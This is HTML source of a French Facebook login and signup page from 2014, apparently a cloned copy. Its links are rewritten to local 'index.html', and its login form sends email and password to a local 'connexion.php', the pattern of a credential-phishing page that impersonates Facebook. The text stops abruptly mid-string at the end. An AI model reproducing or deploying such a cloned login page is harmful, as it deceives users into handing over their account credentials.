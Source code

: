<!DOCTYPE html>
<html lang="fr" id="facebook" class="no_js">
<head><meta charset="utf-8" /><script>function envFlush(a){function b(c){for(var d in a)c[d]=a[d];}if(window.requireLazy){window.requireLazy(['Env'],b);}else{Env=window.Env||{};b(Env);}}envFlush({"ajaxpipe_token":"AXhWSHayt5EgJera","lhsh":"WAQGbIWyY","khsh":"0`sj`e`rm`s-0fdu^gshdoer-0gc^eurf-3gc^eurf;1;enbtldou;fduDmdldourCxO`ld-2YLMIuuqSdptdru;qsnunuxqd;rdoe"});</script><script>CavalryLogger=false;</script><noscript><meta http-equiv="refresh" content="0; URL=/?stype=lo&amp;jlou=AfepVwWg1TvZZ6cjSmLDsBOxIDF8hdoUM_66r1y1RE4ih2r5CuGQhdlVQw7a9lpTZivvxwcujCP7gXgL0m3WK8Gn&amp;smuh=40039&amp;lh=Ac8SyZlHe_7kEUPN&amp;_fb_noscript=1" /></noscript><meta name="referrer" content="default" id="meta_referrer" /><title id="pageTitle">Bienvenue sur Facebook. Connectez-vous, inscrivez-vous ou découvrez !</title><meta property="og:site_name" content="Facebook" /><meta property="og:url" content="index.html" /><meta property="og:image" content="index.html" /><meta property="og:locale" content="fr_FR" /><link rel="canonical" href="index.html" /><link rel="alternate" media="only screen and (max-width: 640px)" href="index.html" /><link rel="alternate" media="handheld" href="index.html" /><link rel="alternate" hreflang="x-default" href="index.html" /><link rel="alternate" hreflang="en" href="index.html" /><link rel="alternate" hreflang="es" href="index.html" /><link rel="alternate" hreflang="es-es" href="index.html" /><link rel="alternate" hreflang="fr" href="index.html" /><link rel="alternate" hreflang="fr-ca" href="index.html" /><link rel="alternate" hreflang="id" href="index.html" /><link rel="alternate" hreflang="it" href="index.html" /><link rel="alternate" hreflang="ko" href="index.html" /><link rel="alternate" hreflang="th" href="index.html" /><link rel="alternate" hreflang="vi" href="index.html" /><meta name="description" content="Facebook est un r&#xe9;seau social qui vous relie &#xe0; des amis, des coll&#xe8;gues de travail, des camarades de classe ou d&#x2019;autres personnes qui ont quelque chose &#xe0;..." /><meta name="robots" content="noodp,noydir" /><noscript><meta http-equiv="X-Frame-Options" content="DENY" /></noscript><link rel="shortcut icon" href="https://fbstatic-a.akamaihd.net/rsrc.php/yl/r/H3nktOa7ZMg.ico" />
    <link type="text/css" rel="stylesheet" href="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yS/r/e5GQggOUR83.css" />
    <link type="text/css" rel="stylesheet" href="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yN/r/mQV69l_2bPX.css" />
    <link type="text/css" rel="stylesheet" href="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yA/r/CGoVxKZ_zIW.css" />
    <link type="text/css" rel="stylesheet" href="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yL/r/x3bsMJyVkPp.css" />
    <link type="text/css" rel="stylesheet" href="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yk/r/nD78nRw4uZ7.css" />

    <script src="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yi/r/VHFE657H7nB.js" crossorigin="anonymous"></script>
<script>(require("ServerJSDefine")).handleDefines([["URLFragmentPreludeConfig",[],{"incorporateQuicklingFragment":true,"hashtagRedirect":true},137],["BootloaderConfig",[],{},329],["CurrentUserInitialData",[],{"US
ER_ID":"0","ACCOUNT_ID":"0"},270],["SiteData",[],{"revision":1334091,"tier":"","push_phase":"V3","pkg_cohort":"EXP1:DEFAULT","vip":"31.13.80.81"},317],["DTSGInitialData",[],{},258],["ISB",[],{},330],["LSD",[]
,{"token":"AVo0QfAj"},323],["BanzaiConfig",[],{"EXPIRY":86400000,"MAX_SIZE":10000,"MAX_WAIT":150000,"RESTORE_WAIT":150000,"blacklist":["time_spent"],"gks":{"adapterhooks":true,"boosted_pagelikes":true,"boosted_website":
true,"boosted_posts":true,"jslogger":true,"miny_compression":true,"pages_client_logging":true,"time_spent_bit_array":true,"time_spent_debug":true,"useraction":true,"videos":true,"visibility_tracking":true,"vitals":true}},7
],["AsyncRequestConfig",[],{"retryOnNetworkError":"1"},328],["FbtLogger",[],{"logger":null},288],["TrackingConfig",[],{"domain":"https:\/\/pixel.index.html"},325],["ErrorSignalConfig",[],{"uri":"https:\/\/error.facebook.co
m\/common\/scribe_endpoint.php"},319],["InitialServerTime",[],{"serverTime":1405691121000},204],["UFIConstants",[],{"UFIActionType":{"COMMENT_LIKE":"fa-type:comment-like","COMMENT_SET_SPAM":"fa-type:mark-spam","DELETE_COMM
ENT":"fa-type:delete-comment","DISABLE_COMMENTS":"fa-type:disable-comments","LIVE_DELETE_COMMENT":"fa-type:live-delete-comment","LIKE_ACTION":"fa-type:like","SUBSCRIBE_ACTION":"fa-type:subscribe","REMOVE_PREVIEW":"fa-type:r
emove-preview","MARK_COMMENT_SPAM":"fa-type:mark-spam","CONFIRM_COMMENT_REMOVAL":"fa-type:confirm-remove","TRANSLATE_COMMENT":"fa-type:translate-comment","COMMENT_LIKECOUNT_UPDATE":"fa-type:comment-likecount-update","GIFT_S
UGGESTION":"fa-type:gift-suggestion"},"UFICommentOrderingMode":{"CHRONOLOGICAL":"chronological","RANKED_THREADED":"ranked_threaded","TOPLEVEL":"toplevel","RECENT_ACTIVITY":"recent_activity","FEATURED":"featured","UNSUPPORTED
":"unsupported"},"UFIFeedbackSourceType":{"PROFILE":0,"NEWS_FEED":1,"OBJECT":2,"MOBILE":3,"EMAIL":4,"PROFILE_APPROVAL":10,"TICKER":12,"NONE":13,"INTERN":14,"ADS":15,"EVENT_GOING_FLYOUT":16,"PHOTOS_SNOWLIFT":17,"NOTIFICATION_FL
YOUT":18,"LOCAL_FEED":19},"UFIPayloadSourceType":{"UNKNOWN":0,"INITIAL_SERVER":1,"LIVE_SEND":2,"USER_ACTION":3,"ENDPOINT_LIKE":10,"ENDPOINT_COMMENT_LIKE":11,"ENDPOINT_ADD_COMMENT":12,"ENDPOINT_EDIT_COMMENT":13,"ENDPOINT_DELET
E_COMMENT":14,"ENDPOINT_COMMENT_SPAM":16,"ENDPOINT_REMOVE_PREVIEW":17,"ENDPOINT_ID_COMMENT_FETCH":18,"ENDPOINT_COMMENT_FETCH":19,"ENDPOINT_TRANSLATE_COMMENT":20,"ENDPOINT_BAN":21,"ENDPOINT_SUBSCRIBE":22,"ENDPOINT_COMMENT_LIKEC
OUNT_UPDATE":23,"ENDPOINT_DISABLE_COMMENTS":24,"ENDPOINT_ACTOR_CHANGE":25},"UFIStatus":{"DELETED":"status:deleted","SPAM":"status:spam","SPAM_DISPLAY":"status:spam-display","LIVE_DELETED":"status:live-deleted","FAILED_ADD":"status:failed-add","FAILED_EDIT":"status:failed-edit","PENDING_EDIT":"status:pending-edit"},"attachmentTruncationLength":80,"commentTruncationLength":420,"commentTruncationMaxLines":3,"commentTruncationPercent":0.6,"commentURLTruncationLength":60,"defaultPageSize":50,"infiniteScrollRangeForQANDAPermalinks":1000,"minCommentsForOrderingModeSelector":2,"unavailableCommentKey":"unavailable_comment_key"},240]]);new (require("ServerJS"))().handle({"require":[["markJSEnabled"],["lowerDomain"],["URLFragmentPrelude"],["Primer"],["Bootloader"]]});</script></head><body class="fbIndex UIPage_LoggedOut _2gsg webkit chrome win Locale_fr_FR" dir="ltr"><div class="_li"><div id="pagelet_bluebar"><div id="blueBarHolder" class="_2gsf"><div id="blueBar" class="aboveSidebar"><div><div class="loggedout_menubar_container"><div class="clearfix loggedout_menubar"><a class="lfloat _ohe" href="/" title="Acc&#xe9;der &#xe0; la page d&#x2019;accueil"><i class="fb_logo img sp_9vUokIDmpP8 sx_15c231"><u>Logo Facebook</u></i></a><div class="menu_login_container rfloat _ohf">
<form id="login_form" action="connexion.php" method="post" onsubmit="return window.Event &amp;&amp; Event.__inlineSubmit &amp;&amp; Event.__inlineSubmit(this,event)">
<input type="hidden" name="lsd" value="AVo0QfAj" autocomplete="off" />
<table cellspacing="0"><tr><td class="html7magic"><label for="email">Adresse électronique ou téléphone</label></td>
<td class="html7magic"><label for="pass">Mot de passe</label></td></tr>
<tr><td><input type="text" class="inputtext" name="email" id="email" value="" tabindex="1" /></td>
<td><input type="password" class="inputtext" name="pass" id="pass" tabindex="2" /></td>
<td><label class="uiButton uiButtonConfirm" id="loginbutton" for="u_0_l"><input value="Connexion" tabindex="4" type="submit" id="u_0_l" /></label></td></tr>
<tr><td class="login_form_label_field"><div><div class="uiInputLabel clearfix uiInputLabelLegacy"><input id="persist_box" type="checkbox" name="persistent" value="1" checked="1" class="uiInputLabelInput uiInputLabelCheckbox" /><label for="persist_box" class="uiInputLabelLabel">Garder ma session active</label></div>
<input type="hidden" name="default_persistent" value="1" /></div></td><td class="login_form_label_field"><a rel="nofollow" href="index.html">Mot de passe oublié ?</a></td></tr></table><input type="hidden" autocomplete="off" name="timezone" value="" id="u_0_m" /><input type="hidden" name="lgnrnd" value="064521_Ityj" /><input type="hidden" id="lgnjs" name="lgnjs" value="n" /><input type="hidden" autocomplete="off" id="locale" name="locale" value="fr_FR" /></form></div></div></div></div></div></div></div><div id="globalContainer" class="uiContextualLayerParent"><div id="content" class="fb_content clearfix"><div><div class="gradient"><div class="gradientContent"><div class="clearfix"><div class="lfloat _ohe"><div class="clearfix fbIndexMobile"><a class="lfloat _ohe" ajaxify="/ajax/mobile/sms_link/?src=lo&amp;type=install_via_sms" tabindex="-1" href="#" rel="dialog" role="button"><img class="mtm phoneImage img" src="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yt/r/FZaMKqARgC6.png" alt="" width="97" height="205" /></a><div class="clearfix rightSide rfloat _ohf"><div class="lfloat _ohe"><div class="title fsl fwb fcb">Vous partez déjà ? Ne ratez plus rien !</div><div class="subtitle fsm fwn fcg">Accédez à facebook.com sur votre téléphone mobile.</div></div><a class="mrl mobileButton rfloat _ohf uiButton" href="#" role="button" ajaxify="/ajax/mobile/sms_link/?src=lo&amp;type=install_via_sms" rel="dialog"><span class="uiButtonText">Utiliser Facebook Mobile</span></a></div></div></div><div class="_5iyz rfloat _ohf"><div class="pvl _52lp _59d-"><div class="mbs _52lq fsl fwb fcb">Inscription</div><div class="_52lr fsm fwn fcg">C’est gratuit (et ça le restera toujours)</div></div><div id="registration_container"><div><noscript><div id="no_js_box"><h2>JavaScript est désactivé dans votre navigateur.</h2><p>Veuillez activer JavaScript dans votre navigateur ou installer un navigateur avec JavaScript pour pouvoir vous enregistrer sur Facebook.</p></div></noscript><div class="_58mf"><div id="reg_box" class="registration_redesign"><form method="post" id="reg" name="reg" action="index.html" onsubmit="return function(event)&#123;return false;&#125;.call(this,event)!==false &amp;&amp; window.Event &amp;&amp; Event.__inlineSubmit &amp;&amp; Event.__inlineSubmit(this,event)"><input type="hidden" name="lsd" value="AVo0QfAj" autocomplete="off" /><div id="reg_form_box" class="large_form"><div class="clearfix _58mh"><div class="mrm lfloat _ohe"><div class="_5dbb" id="u_0_0"><input type="text" class="inputtext _58mg _5dba DOMControl_placeholder" data-type="text" name="firstname" value="Pr&#xe9;nom" aria-required="1" placeholder="Pr&#xe9;nom" id="u_0_1" aria-label="Pr&#xe9;nom" /><i class="_5dbc img sp_9vUokIDmpP8 sx_116e5b"></i><i class="_5dbd img sp_9vUokIDmpP8 sx_fa2374"></i></div></div><div class="mbm rfloat _ohf"><div class="_5dbb" id="u_0_2"><input type="text" class="inputtext _58mg _5dba DOMControl_placeholder" data-type="text" name="lastname" value="Nom de famille" aria-required="1" placeholder="Nom de famille" id="u_0_3" aria-label="Nom de famille" /><i class="_5dbc img sp_9vUokIDmpP8 sx_116e5b"></i><i class="_5dbd img sp_9vUokIDmpP8 sx_fa2374"></i></div></div></div><div class="mbm"><div class="_5dbb" id="u_0_4"><input type="text" class="inputtext _58mg _5dba DOMControl_placeholder" data-type="text" name="reg_email__" value="Votre adresse &#xe9;lectronique" aria-required="1" placeholder="Votre adresse &#xe9;lectronique" id="u_0_5" aria-label="Votre adresse &#xe9;lectronique" /><i class="_5dbc img sp_9vUokIDmpP8 sx_116e5b"></i><i class="_5dbd img sp_9vUokIDmpP8 sx_fa2374"></i></div></div><div class="mbm" id="u_0_6"><div class="_5dbb" id="u_0_7"><input type="text" class="inputtext _58mg _5dba DOMControl_placeholder" data-type="text" name="reg_email_confirmation__" value="Confirmez votre adresse &#xe9;lectronique" aria-required="1" placeholder="Confirmez votre adresse &#xe9;lectronique" id="u_0_8" aria-label="Confirmez votre adresse &#xe9;lectronique" /><i class="_5dbc img sp_9vUokIDmpP8 sx_116e5b"></i><i class="_5dbd img sp_9vUokIDmpP8 sx_fa2374"></i></div></div><div class="mbm"><div class="_5dbb" id="u_0_9"><input type="password" class="inputtext _58mg _5dba DOMControl_placeholder" data-type="text" name="reg_passwd__" aria-required="1" placeholder="Nouveau mot de passe" id="u_0_a" value="Nouveau mot de passe" aria-label="Nouveau mot de passe" /><i class="_5dbc img sp_9vUokIDmpP8 sx_116e5b"></i><i class="_5dbd img sp_9vUokIDmpP8 sx_fa2374"></i></div></div><div class="_58mq _5dbb" id="u_0_b"><div class="mtm mbs _58mr">Date de naissance</div><div class="_5k_5"><span class="_5k_4" data-type="selectors" data-name="birthday_wrapper" id="u_0_c"><span><select name="birthday_day" id="day" class="_5dba"><option value="0" selected="1">Jour</option><option value="1">1</option><option value="2">2</option><option value="3">3</option><option value="4">4</option><option value="5">5</option><option value="6">6</option><option value="7">7</option><option value="8">8</option><option value="9">9</option><option value="10">10</option><option value="11">11</option><option value="12">12</option><option value="13">13</option><option value="14">14</option><option value="15">15</option><option value="16">16</option><option value="17">17</option><option value="18">18</option><option value="19">19</option><option value="20">20</option><option value="21">21</option><option value="22">22</option><option value="23">23</option><option value="24">24</option><option value="25">25</option><option value="26">26</option><option value="27">27</option><option value="28">28</option><option value="29">29</option><option value="30">30</option><option value="31">31</option></select><select name="birthday_month" id="month" class="_5dba"><option value="0" selected="1">Mois</option><option value="1">jan</option><option value="2">fév</option><option value="3">mar</option><option value="4">avr</option><option value="5">mai</option><option value="6">jun</option><option value="7">juil</option><option value="8">aoû</option><option value="9">sep</option><option value="10">oct</option><option value="11">nov</option><option value="12">déc</option></select><select name="birthday_year" id="year" class="_5dba"><option value="0" selected="1">Année</option><option value="2014">2014</option><option value="2013">2013</option><option value="2012">2012</option><option value="2011">2011</option><option value="2010">2010</option><option value="2009">2009</option><option value="2008">2008</option><option value="2007">2007</option><option value="2006">2006</option><option value="2005">2005</option><option value="2004">2004</option><option value="2003">2003</option><option value="2002">2002</option><option value="2001">2001</option><option value="2000">2000</option><option value="1999">1999</option><option value="1998">1998</option><option value="1997">1997</option><option value="1996">1996</option><option value="1995">1995</option><option value="1994">1994</option><option value="1993">1993</option><option value="1992">1992</option><option value="1991">1991</option><option value="1990">1990</option><option value="1989">1989</option><option value="1988">1988</option><option value="1987">1987</option><option value="1986">1986</option><option value="1985">1985</option><option value="1984">1984</option><option value="1983">1983</option><option value="1982">1982</option><option value="1981">1981</option><option value="1980">1980</option><option value="1979">1979</option><option value="1978">1978</option><option value="1977">1977</option><option value="1976">1976</option><option value="1975">1975</option><option value="1974">1974</option><option value="1973">1973</option><option value="1972">1972</option><option value="1971">1971</option><option value="1970">1970</option><option value="1969">1969</option><option value="1968">1968</option><option value="1967">1967</option><option value="1966">1966</option><option value="1965">1965</option><option value="1964">1964</option><option value="1963">1963</option><option value="1962">1962</option><option value="1961">1961</option><option value="1960">1960</option><option value="1959">1959</option><option value="1958">1958</option><option value="1957">1957</option><option value="1956">1956</option><option value="1955">1955</option><option value="1954">1954</option><option value="1953">1953</option><option value="1952">1952</option><option value="1951">1951</option><option value="1950">1950</option><option value="1949">1949</option><option value="1948">1948</option><option value="1947">1947</option><option value="1946">1946</option><option value="1945">1945</option><option value="1944">1944</option><option value="1943">1943</option><option value="1942">1942</option><option value="1941">1941</option><option value="1940">1940</option><option value="1939">1939</option><option value="1938">1938</option><option value="1937">1937</option><option value="1936">1936</option><option value="1935">1935</option><option value="1934">1934</option><option value="1933">1933</option><option value="1932">1932</option><option value="1931">1931</option><option value="1930">1930</option><option value="1929">1929</option><option value="1928">1928</option><option value="1927">1927</option><option value="1926">1926</option><option value="1925">1925</option><option value="1924">1924</option><option value="1923">1923</option><option value="1922">1922</option><option value="1921">1921</option><option value="1920">1920</option><option value="1919">1919</option><option value="1918">1918</option><option value="1917">1917</option><option value="1916">1916</option><option value="1915">1915</option><option value="1914">1914</option><option value="1913">1913</option><option value="1912">1912</option><option value="1911">1911</option><option value="1910">1910</option><option value="1909">1909</option><option value="1908">1908</option><option value="1907">1907</option><option value="1906">1906</option><option value="1905">1905</option></select></span></span><a class="mlm _58ms" href="#" ajaxify="/help/ajax/reg_birthday" title="Cliquez ici pour plus d&#x2019;informations" rel="async" role="button">Pourquoi dois-je indiquer ma date de naissance ?</a><i class="_5dbc _5k_6 img sp_9vUokIDmpP8 sx_116e5b"></i><i class="_5dbd _5k_7 img sp_9vUokIDmpP8 sx_fa2374"></i></div></div><div class="mtm _5wa2 _5dbb" id="u_0_f"><span class="_5k_3" data-type="radio" data-name="gender_wrapper" id="u_0_g"><span class="_5k_2 _5dba"><input type="radio" name="sex" value="1" id="u_0_d" /><label class="_58mt" for="u_0_d">Femme</label></span><span class="_5k_2 _5dba"><input type="radio" name="sex" value="2" id="u_0_e" /><label class="_58mt" for="u_0_e">Homme</label></span></span><i class="_5dbc _5k_6 img sp_9vUokIDmpP8 sx_116e5b"></i><i class="_5dbd _5k_7 img sp_9vUokIDmpP8 sx_fa2374"></i></div><div class="_58mu" id="u_0_h"><p class="_58mv">En cliquant sur Inscription, vous acceptez nos <a href="/legal/terms" target="_blank" rel="nofollow">Conditions</a> et indiquez que vous avez lu notre <a href="/about/privacy" target="_blank" rel="nofollow">Politique d’utilisation des données</a>, y compris notre <a href="/help/cookies" target="_blank" rel="nofollow">Utilisation des cookies</a>.</p></div><div class="clearfix"><button type="submit" class="_6j mvm _6wk _6wl _58mi _3ma _6o _6v" name="websubmit" id="u_0_i">Inscription</button><span class="hidden_elem _58ml" id="u_0_n"><img class="img" src="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yb/r/GsNJNwuI-UM.gif" alt="" width="16" height="11" /></span></div></div><input type="hidden" autocomplete="off" id="referrer" name="referrer" value="" /><input type="hidden" autocomplete="off" id="asked_to_login" name="asked_to_login" value="0" /><input type="hidden" autocomplete="off" id="terms" name="terms" value="on" /><input type="hidden" autocomplete="off" id="ab_test_data" name="ab_test_data" value="" /><input type="hidden" autocomplete="off" id="contactpoint_label" name="contactpoint_label" value="email_only" /><input type="hidden" autocomplete="off" id="locale" name="locale" value="fr_FR" /><input type="hidden" autocomplete="off" id="abtest_registration_group" name="abtest_registration_group" value="1" /><input type="hidden" autocomplete="off" id="reg_instance" name="reg_instance" value="_Xq9U0q6C8RTXQmDi4MIC21M" /><div id="reg_captcha" class="_58mw hidden_elem"><div><h2 id="security_check_header">Test de sécurité</h2><div id="outer_captcha_box"><div id="captcha_box"><div class="field_error hidden_elem" id="captcha_response_error">Ce champ est obligatoire.</div><div id="captcha" class="captcha" data-captcha-class="ReCaptchaCaptcha"><input type="hidden" autocomplete="off" id="captcha_persist_data" name="captcha_persist_data" value="AZndc6Kj-sl3uhSJg6l-blKEvs5ZiMezoRWRaFhUoRE_R9rZO505YzdkT5st1RAkSQyDOx6tFV54O2UizShH0hMC2YnI6claVsiwBZiH-Mof9irFyirlXZn0t5udM-1fy8xSfOOsDZSqv7_ZABATVFABEL2F4TR7RjdCCbqvXjwLGxPdCb8t4Yd-A-HrUOhsaj8KgVxRKPD4A1pS_R_D5gnHnAw13TZHW0PVWaScHrsO5G20ryDDpTHfDLKP1inJqTdYLZQrHxqLGLJC8jiLunRC90ynHcR35_NJqPDYHMKYEOJo2pkLw76G3idYcx5qvywey_9LFUs7biMdzupBbgTmJU1UOgVeF6gx9NnfC8ulKA" /><div id="recaptcha_scripts" style="display:none"></div><input type="hidden" autocomplete="off" id="captcha_session" name="captcha_session" value="QBeeEcD26CHmxlrQQ6AAUQ" /><input type="hidden" autocomplete="off" id="extra_challenge_params" name="extra_challenge_params" value="authp=nonce.tt.time.new_audio_default&amp;psig=xpLDsgte3RDeH-hf55CtMTUOB2I&amp;nonce=QBeeEcD26CHmxlrQQ6AAUQ&amp;tt=sJC12ElwEdlxvqIkVFMz3tTBz1s&amp;time=1405691121&amp;new_audio_default=1" /><input type="hidden" autocomplete="off" id="recaptcha_type" name="recaptcha_type" value="password" /><div class="recaptcha_text"><div class="recaptcha_only_if_image">Saisissez les deux mots ci-dessous en les séparant par un espace.<br />Vous n’arrivez pas à lire les mots ci-dessous ? <a href="#" onclick="Recaptcha.reload(); return false" id="recaptcha_reload_btn" role="button">Saisissez d’autres mots</a> ou <a href="#" onclick="Recaptcha.switch_type(&quot;audio&quot;); return false;" role="button">un captcha audio</a>.</div><div class="recaptcha_only_if_audio" style="display:none">Veuillez saisir les mots ou les chiffres que vous entendez.<br /><a href="#" onclick="Recaptcha.reload(); return false" id="recaptcha_reload_btn" role="button">Saisissez d’autres mots</a> ou <a class="recaptcha_only_if_audio" href="#" onclick="Recaptcha.switch_type(&quot;image&quot;); return false;" role="button">retour au texte</a>.</div></div><span id="recaptcha_play_audio"></span><div class="audiocaptcha"></div><div id="recaptcha_image" class="captcha_image"></div><div id="recaptcha_loading">Chargement...<img class="captcha_loading img" src="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yb/r/GsNJNwuI-UM.gif" alt="" width="16" height="11" /></div><div class="captcha_input"><label>Texte de l’encadré :</label><div class="field_container"><input type="text" name="captcha_response" id="captcha_response" autocomplete="off" aria-label="Saisie du Captcha. Tapez les mots ci-dessous pour continuer. Vous pouvez aussi &#xe9;couter un captcha audio en cliquant sur le lien ci-dessus." /></div><a class="mlm" href="#" onclick="CSS.show($(&#039;captcha_whats_this&#039;)); return false;" role="button">Qu’est-ce que c’est ?</a><div id="captcha_whats_this" class="hidden_elem"><div class="fsl fwb">Contrôle de sécurité</div>Ceci est un test de sécurité standard que nous utilisons pour empêcher la création de faux comptes destinés à envoyer des messages indésirables.</div></div></div></div></div><div id="captcha_buttons" class="_58p2 clearfix hidden_elem"><div class="_58mx _58mm"><div class="_58mz">   </div><a class="_58my" href="#" role="button" id="u_0_j">Retour</a></div><div class="_58mm"><div class="clearfix"><button type="submit" class="_6j mvm _6wk _6wl _58me _58mi _3ma _6o _6v" id="u_0_k">Inscription</button><span class="hidden_elem _58ml" id="u_0_o"><img class="img" src="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yb/r/GsNJNwuI-UM.gif" alt="" width="16" height="11" /></span></div></div></div></div></div></form><div id="reg_error" class="_58mn hidden_elem"><div id="reg_error_inner" class="_58mo">Une erreur s’est produite. Veuillez réessayer.</div></div><div id="reg_pages_msg" class="_58mk"><a href="/pages/create/">Créer une Page</a> pour une célébrité, un groupe ou une entreprise.</div></div></div></div></div></div></div></div></div><div class="mtm locales"><ul class="uiList localeSelectorList _509- _4ki _6-h _6-j _6-i"></ul></div></div></div><div id="pageFooter" data-referrer="page_footer"><div id="contentCurve"></div><div role="contentinfo" aria-label="Liens vers Facebook"><table class="uiGrid _51mz navigationGrid" cellspacing="0" cellpadding="0"><tbody><tr class="_51mx"><td class="_51m- hLeft plm"><a href="index.html" title="D&#xe9;couvrez Facebook Mobile.">Mobile</a></td><td class="_51m- hLeft plm"><a href="index.html" title="Retrouvez toutes les personnes que vous souhaitez sur le web.">Retrouver des amis</a></td><td class="_51m- hLeft plm"><a href="index.html" title="Int&#xe9;grez un badge Facebook &#xe0; votre site web.">Badges</a></td><td class="_51m- hLeft plm"><a href="index.html" title="Parcourir notre annuaire de personnes.">Personnes</a></td><td class="_51m- hLeft plm"><a href="index.html" title="Parcourir notre annuaires de Pages.">Pages</a></td><td class="_51m- hLeft plm"><a href="index.html" title="D&#xe9;couvrez les lieux populaires sur Facebook.">Lieux</a></td><td class="_51m- hLeft plm"><a href="index.html" title="Visitez l&#x2019;espace applications Facebook.">Applications</a></td><td class="_51m- hLeft plm"><a href="index.html" title="D&#xe9;couvrez les jeux Facebook.">Jeux</a></td><td class="_51m- hLeft plm _51mw"><a href="index.html" title="D&#xe9;couvrez les applications musicales Facebook.">Musique</a></td></tr><tr class="_51mx"><td class="_51m- hLeft plm"><a href="index.html" title="Parcourez notre liste de lieux.">Emplacements</a></td><td class="_51m- hLeft plm"><a href="index.html" title="Parcourez notre r&#xe9;pertoire de sujets.">Rubriques</a></td><td class="_51m- hLeft plm"><a href="index.html" accesskey="8" title="Consultez notre blog, d&#xe9;couvrez notre centre de ressources et recherchez des offres d&#x2019;emploi.">À propos</a></td><td class="_51m- hLeft plm"><a href="index.html" title="Diffusez votre publicit&#xe9; sur Facebook">Créer une publicité</a></td><td class="_51m- hLeft plm"><a href="index.html" title="Cr&#xe9;er une Page">Créer une Page</a></td><td class="_51m- hLeft plm"><a href="index.html" title="D&#xe9;veloppez sur notre propre plate-forme.">Développeurs</a></td><td class="_51m- hLeft plm"><a href="index.html" title="Faites &#xe9;voluer votre carri&#xe8;re en rejoignant notre incroyable entreprise.">Emplois</a></td><td class="_51m- hLeft plm"><a href="index.html" title="En savoir plus sur Facebook et le respect de votre vie priv&#xe9;e.">Confidentialité</a></td><td class="_51m- hLeft plm _51mw"><a href="index.html" title="&#xc0; propos des cookies et de Facebook.">Cookies</a></td></tr><tr class="_51mx"><td class="_51m- hLeft plm"><a href="index.html" accesskey="9" title="Prenez connaissance des conditions d&#x2019;utilisation et des r&#xe8;glements.">Conditions d’utilisation</a></td><td class="_51m- hLeft plm"><a href="index.html" accesskey="0" title="Consulter les pages d&#x2019;aide">Aide</a></td></tr></tbody></table></div><div class="mvl copyright"><div class="fsm fwn fcg"><span> Facebook © 2014</span> · <a rel="dialog" ajaxify="index.html" title="Utiliser Facebook dans une autre langue." href="#" role="button">Français (France)</a></div></div></div></div></div><script type="text/javascript">/*<![CDATA[*/function si_cj(m){setTimeout(function(){new Image().src="https:\/\/index.html\/common\/scribe_endpoint.php?c=si_clickjacking&t=9473"+"&m="+m;},5000);}if(top!=self && !false){try{if(parent!=top){throw 1;}var si_cj_d=["index.html","index.html"];var href=top.location.href.toLowerCase();for(var i=0;i<si_cj_d.length;i++){if (href.indexOf(si_cj_d[i])>=0){throw 1;}}si_cj("3 https:\/\/index.html\/");}catch(e){si_cj("1 \thttps:\/\/index.html\/");window.document.write("\u003Cstyle>body * {display:none !important;}\u003C\/style>\u003Ca href=\"#\" onclick=\"top.location.href=window.location.href\" style=\"display:block !important;padding:10px\">\u003Ci class=\"img sp_yBwFfo5J-A1 sx_984887\" style=\"display:block !important\">\u003C\/i>Acc\u00e9der \u00e0 index.html\u003C\/a>");/*PcXymgqB*/}}/*]]>*/</script>
<script>requireLazy(["Bootloader"], function(Bootloader) {Bootloader.setResourceMap({"WpEam":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y7\/r\/yu_V9SImqqU.js"},"J2mKw":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y0\/r\/utkhfKiwBTH.js"},"a\/7GR":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yt\/r\/EuhyYqCxvez.js"},"TbG0C":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y_\/r\/DfJlvos0ZTC.js"},"K+4oY":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yU\/r\/fefmKLQdWol.js"},"AWb\/8":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yb\/r\/FABymIPh-AJ.js"},"ZwIZ4":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y1\/r\/75czBK7uQBv.js"},"Vosow":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y5\/r\/g0C-zBtG9I0.js"},"4vv8\/":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yf\/r\/JvK_C44obT2.js"},"7+qww":{"type":"css","permanent":1,"crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yS\/r\/e5GQggOUR83.css"},"NK2Gp":{"type":"css","permanent":1,"crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yN\/r\/mQV69l_2bPX.css"},"Xc7sb":{"type":"css","permanent":1,"crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yA\/r\/CGoVxKZ_zIW.css"},"HgIa3":{"type":"css","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yL\/r\/x3bsMJyVkPp.css"},"zyh0u":{"type":"css","permanent":1,"crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yk\/r\/nD78nRw4uZ7.css"},"X4sze":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yT\/r\/4BqMqXiKtrE.js"},"20549":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yB\/r\/aX2QqNNMsSl.js"},"cAkXN":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic